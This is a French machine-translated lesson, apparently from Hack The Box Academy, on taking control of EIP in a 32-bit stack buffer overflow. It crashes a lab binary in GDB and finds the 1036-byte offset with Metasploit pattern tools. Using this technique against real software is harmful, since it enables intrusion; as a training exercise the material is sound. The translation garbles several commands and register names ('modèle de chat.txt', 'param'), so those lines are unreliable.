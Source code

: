 Prenez le contrôle de l'EIP
===================

* * * * *

L'un des aspects les plus importants d'un débordement de tampon basé sur la pile est de contrôler le `pointeur d'instruction` (`EIP`), afin que nous puissions lui dire à quelle adresse il doit sauter. Cela fera pointer `EIP` vers l'adresse où notre `shellcode` démarre et obligera le processeur à l'exécuter.

Nous pouvons exécuter des commandes dans GDB en utilisant Python, qui nous sert directement d'entrée.

#### Défaut de segmentation

Défaut de segmentation

```
étudiant@nix-bow :~$ gdb -q bow32

(gdb) exécutez $(python -c "print '\x55' * 1200")
Programme de démarrage : /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Le programme a reçu le signal SIGSEGV, Défaut de segmentation.
0x55555555 dans ?? ()

```

Si nous insérons 1200 "`U`" (hex "`55`") en entrée, nous pouvons voir à partir des informations de registre que nous avons écrasé le `EIP`. Pour autant que nous le sachions, `EIP` pointe vers la prochaine instruction à exécuter.

Défaut de segmentation

```
(gdb) registres d'informations

eax 0x1 1
ECX 0xffffd6c0 -10560
edx 0xffffd06f -12177
ebx 0x55555555 1431655765
esp 0xffffcfd0 0xffffcfd0
ebp 0x55555555 0x55555555 # <---- EBP écrasé
esi 0xf7fb5000 -134524928
edi 0x0 0
eip 0x55555555 0x55555555 # <---- EIP écrasé
eflags 0x10286 [ PF SF IF RF ]
cs 0x23 35
param 0x2b 43
ds 0x2b 43
es 0x2b 43
fs 0x0 0
gs 0x63 99

```

Si nous voulons imaginer le processus visuellement, alors le processus ressemble à ceci.

#### Amortir

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_2.png)

Cela signifie que nous devons accéder en écriture à l'EIP. Ceci, à son tour, permet de spécifier à quelle adresse mémoire l'EIP doit sauter. Cependant, pour manipuler le registre, nous avons besoin d'un nombre exact d'U jusqu'à l'EIP afin que les 4 octets suivants puissent être écrasés par l'adresse mémoire souhaitée.

* * * * *

Déterminer le décalage
--------------------

Le décalage est utilisé pour déterminer combien d'octets sont nécessaires pour écraser le tampon et combien d'espace nous avons autour de notre shellcode.

Shellcode est un code de programme qui contient des instructions pour une opération que nous voulons que le CPU exécute. La création manuelle du shellcode sera abordée plus en détail dans d'autres modules. Mais pour gagner du temps d'abord, nous utilisons le Metasploit Framework (MSF) qui propose un script Ruby appelé "pattern_create" qui peut nous aider à déterminer le nombre exact d'octets pour atteindre l'EIP. Il crée une chaîne unique basée sur la longueur d'octets que vous spécifiez pour aider à déterminer le décalage.

#### Créer un motif

Créer un motif

```
dsgsec@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
dsgsec@htb[/htb]$ modèle de chat.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9

```

Maintenant, nous remplaçons nos 1200 "`U`" par les modèles générés et concentrons à nouveau notre attention sur l'EIP.

#### GDB - Utilisation du modèle généré

GDB - Utilisation du modèle généré

```
(gdb) exécuter $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")

Le programme en cours de débogage a déjà été démarré.
Commencer depuis le début ? (o ou n) o

Programme de démarrage : /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Le programme a reçu le signal SIGSEGV, Défaut de segmentation.
0x69423569 dans ?? ()

```

#### GDB - EIP

GDB-EIP

```
(gdb) registres d'informations eip

eip 0x69423569 0x69423569

```

Nous voyons que `EIP` affiche une adresse mémoire différente, et nous pouvons utiliser un autre outil MSF appelé "`pattern_offset`" pour calculer le nombre exact de caractères (décalage) nécessaires pour passer à `EIP`.

#### GDB - Décalage

GDB - Décalage

```
dsgsec@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Correspondance exacte au décalage 1036

```

#### Amortir

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_3.png)

Si nous utilisons maintenant précisément ce nombre d'octets pour nos "`U`", nous devrions atterrir exactement sur `EIP`. Pour l'écraser et vérifier si nous l'avons atteint comme prévu, nous pouvons ajouter 4 octets supplémentaires avec "`\x66`" et l'exécuter pour nous assurer que nous contrôlons le `EIP`.

#### Décalage GDB

Décalage GDB

```
(gdb) exécutez $(python -c "print '\x55' * 1036 + '\x66' * 4")

Le programme en cours de débogage a déjà été lancé.
Commencer depuis le début ? (o ou n) o

Programme de démarrage : /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Le programme a reçu le signal SIGSEGV, Défaut de segmentation.
0x66666666 en ?? ()

```

#### Amortir

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_4.png)

Nous voyons maintenant que nous avons remplacé `EIP` par nos caractères "`\x66`". Ensuite, nous devons découvrir combien d'espace nous avons pour notre shellcode, qui exécute ensuite les commandes que nous avons l'intention. Comme nous contrôlons maintenant `EIP` , nous l'écraserons plus tard avec l'adresse pointant vers le début de notre shellcode.